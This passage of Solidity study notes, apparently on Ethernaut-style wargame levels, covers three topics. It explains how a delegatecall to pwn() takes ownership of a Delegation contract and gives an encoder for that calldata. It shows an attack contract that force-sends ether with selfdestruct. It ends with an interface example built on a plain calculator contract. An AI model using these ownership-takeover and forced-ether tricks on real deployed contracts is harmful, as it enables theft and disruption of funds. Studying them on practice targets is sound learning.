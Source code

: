 When delegatecall is invoked the pwn() function is run and it belongs to the Delegation contract so the owner variable is going to be changed for the Delegation contract not for Delegate.

```
contract Encoder {
    function learnCalldata() public pure  returns (bytes memory){
        return abi.encodeWithSignature("pwn()");
        
    }
}
```
- This function returns the abi of the pwn() function which can be passed to the calldata to call the pwn() function.

---

### selfdestruct (depreciated)

- You can also send balance from one contract to another account by using the SELFDESTRUCT opcode.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }

contract mrAttack {
    function attack(Force forc) payable public {
        address payable addr = payable(address(forc));
        selfdestruct(addr);
    }

    receive() external payable { }
}
```

- SELFDESTRUCT opcode most likely going to be deleted in an upcoming fork (https://eips.ethereum.org/EIPS/eip-4758), which would break contracts/protocols relying on it when that happens.

--- 

### Interface 

- Solidity allows you to interact with other contracts without having their code by using their interface.

Let's say that we have a simple calculator contract.

```
pragma solidity ^0.8.0;

contract Calculator  {
    constructor() {}

    function add(uint a, uint b) public pure returns (uint) {
        return a + b;
    }

    function subtract(uint a, uint b) public pure returns (uint) {
        return a - b;
    }
}
```
